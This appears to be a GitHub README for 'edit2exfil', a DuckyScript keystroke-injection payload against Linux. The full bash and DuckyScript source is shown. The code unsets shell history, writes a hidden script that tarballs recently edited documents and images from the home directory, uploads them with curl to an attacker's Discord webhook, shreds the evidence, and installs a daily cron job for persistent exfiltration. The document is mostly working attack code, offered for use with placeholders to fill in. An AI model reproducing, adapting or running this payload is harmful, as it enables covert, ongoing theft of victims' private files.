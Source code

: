 ==========================================================================================

REM TITLE: edit2exfil

REM AUTHOR: OSINTI4L (https://github.com/OSINTI4L)

REM TARGET OS: Linux (tested on Kali Linux Release 2025-W19)

REM DESCRIPTION: (See below)

REM REQUIREMENTS: Place Discord webhook in the #WEBHOOK_URL constant on line 10 | Place the USER of the target system in the #USER constant on line 11 | Timing of when and how frequent the script will be ran can be changed in line 53.

==========================================================================================

## edit2exfil

edit2exfil is a persistent file exfiltration payload that embeds itself as a `cronjob` on Linux systems via bash script, running silently in the background allowing for persistent exfiltration of updated files.

**The payload builds a bash script (.e2e.sh) that performs multiple tasks in the following order:**

1. a `net_check` conditional statement is utilized to see if the machine has internet connectivity. This is acheived by sending a `PING` to [Hak5.org](https://hak5.org). If `PING` was **NOT** successful, the script exits and will be ran again in 24 hours (or the next scheduled time). If the `PING` **WAS** successful, the script moves to a secondary conditional statement >
2. a `file_check` conditional statement is utilized to see if the following document file types have been modified (edited) in the past 24 hours: `.txt, .pdf, .docx, .doc, .csv, .xlsx, .png", .jpg", .jpeg", .sh"`. If there are **NOT** any documents (with the previous file types) that have been modified in the past 24 hours, the script exits and will be ran again in 24 hours (or the next scheduled time), else >
3. The files are tarballed (.loot.tar.gz) and placed (hidden) in the home directory for exfiltration >
4. The tarball is then exfiltrated via Discord webhook >
5. The tarball is then `shredded` to obfuscate its' presence >
6. fi (end of script)

This allows for persistent data exfiltration of files as they are updated daily.

Total time for DuckyScript payload to run (including building bash script): `7 seconds`.

**DuckyScript Payload Workflow:**
  - Terminal window is opened.
  - Terminal history is unset (to obfuscate building of the payloads' bash script (.e2e.sh) > bash script is built and hidden (due to prepending with . in home directory).
  - Execution permissions are given to .e2e.sh > .e2e.sh is added to `cronjob` to automatically run silently in the bachkground daily at 10:00 AM.
  - Terminal window is closed.

**Payload Bash Script (.e2e.sh):**
```
# Creating file_check function to see if the listed filetypes (and their respective documents) have been modified (edited) in the past 24 hours:
file_check() {
    find ~ -mtime -1 -type f \( -name "*.txt" -o -name "*.pdf" -o -name "*.docx" -o -name "*.doc" -o -name "*.csv" -o -name "*.xlsx" -o -name "*.png" -o -name "*.jpg" -o -name "*.jpeg" -o -name "*.sh" \) -print0 | grep -q . 
}

# Creating hidden tarball function to tarball the listed documents (of the respective filetypes) that have been modified (edited) in the past 24 hours:
tarball() {
    find ~ -mtime -1 -type f \( -name "*.txt" -o -name "*.pdf" -o -name "*.docx" -o -name "*.doc" -o -name "*.csv" -o -name "*.xlsx" -o -name "*.png" -o -name "*.jpg" -o -name "*.jpeg" -o -name "*.sh" \) -print0 | tar -czf ~/.loot.tar.gz --null -T -
}

# Creating net_check function to check for internet connectivity by send a PING to hak5.org:
net_check() {
    ping -c 1 hak5.org
}

# If internet connection, check for files, if files, tarball, else exit:
if net_check; then
    if file_check; then
        tarball
    else
        :
    fi
else
    :
fi

# Exfiltrate tarball of found files to Discord:
curl -X POST -H "Content-Type: multipart/form-data" \
-F "file=@/home/#USER/.loot.tar.gz" \
-F "content=$ Loot Incoming $" \
#WEBHOOK_URL

# Shred the tarball post exfiltration to obfuscate:
shred -fuz ~/.loot.tar.gz
```

**DuckyScript Payload (building of above script):**
```
REM Place Discord webhook and user constants:
DEFINE #WEBHOOK_URL https://discord.com/api/webhooks/PLACE/WEBHOOK/HERE
DEFINE #USER PLACE_USER_HERE

REM Begin attack:
ATTACKMODE HID
DELAY 1000

REM Opening terminal:
CTRL ALT t
DELAY 300

REM Unsetting terminal history and building ".e2e.sh":
STRINGLN unset HISTFILE
STRINGLN cat > .e2e.sh
STRINGLN
file_check() {
    find ~ -mtime -1 -type f \( -name "*.txt" -o -name "*.pdf" -o -name "*.docx" -o -name "*.doc" -o -name "*.csv" -o -name "*.xlsx" -o -name "*.png" -o -name "*.jpg" -o -name "*.jpeg" -o -name "*.sh" \) -print0 | grep -q . 
}
tarball() {
    find ~ -mtime -1 -type f \( -name "*.txt" -o -name "*.pdf" -o -name "*.docx" -o -name "*.doc" -o -name "*.csv" -o -name "*.xlsx" -o -name "*.png" -o -name "*.jpg" -o -name "*.jpeg" -o -name "*.sh" \) -print0 | tar -czf ~/.loot.tar.gz --null -T -
}
net_check() {
    ping -c 1 hak5.org
}

if net_check; then
    if file_check; then
        tarball
    else
        :
    fi
else
    :
fi
curl -X POST -H "Content-Type: multipart/form-data" \
-F "file=@/home/#USER/.loot.tar.gz" \
-F "content=$ Loot Incoming $" \
#WEBHOOK_URL
shred -fuz ~/.loot.tar.gz
END_STRINGLN
CTRL c

REM Granting execution permissions and adding ".e2e.sh" to cronjob to be executed at 10:00 AM, daily:
STRINGLN chmod +x .e2e.sh && (crontab -l; echo "0 10 * * * ~/.e2e.sh") | crontab - && exit
```
